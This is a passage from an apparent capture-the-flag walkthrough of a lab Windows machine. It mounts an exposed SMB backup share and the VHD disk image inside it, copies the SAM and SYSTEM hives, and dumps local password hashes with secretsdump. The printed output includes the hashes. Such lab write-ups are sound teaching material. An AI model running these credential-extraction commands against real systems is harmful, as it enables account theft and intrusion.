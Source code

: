 We found a note.txt file and WindowsImageBackup which is a backup that contains an image copy of the windows files.

The note contains the following image.

```notes
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

The note informs us that the backup might be large and it would take a lot if time to download it.

Checking the WindowsImageBackup directory we find two interesting file.

![](1.png)

There are two .vhd files which are virtual hard disk file, we can also see that the size of the files is very big.

Instead of downloading the files, let's mount the backup directory.

```terminal
$ sudo mount -t cifs //10.10.10.134/backups /mnt/bastion                   
Password for root@//10.10.10.134/backups: 
```

Searching for ways to enumerate the hard disk vhd file, i came across this [article](https://infinitelogins.com/2020/12/11/how-to-mount-extract-password-hashes-vhd-files/) showcasing how to get SAM SYSTEM and dump passwords.

First we need to mount one of the vhd file, the one we'll use is `9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd` because it's the larger one meaning it's the windows file system root.

```terminal
guestmount --add /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /tmp/winbak
```

![](2.png)


## **Foothold**

Great! now we go to `Windows/system32/config` and copy the SAM and SYSTEM files to our machine and then extract the hashes using `impacket secretsdump.py`

```terminal
$ secretsdump.py -sam SAM -system SYSTEM local                           
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```
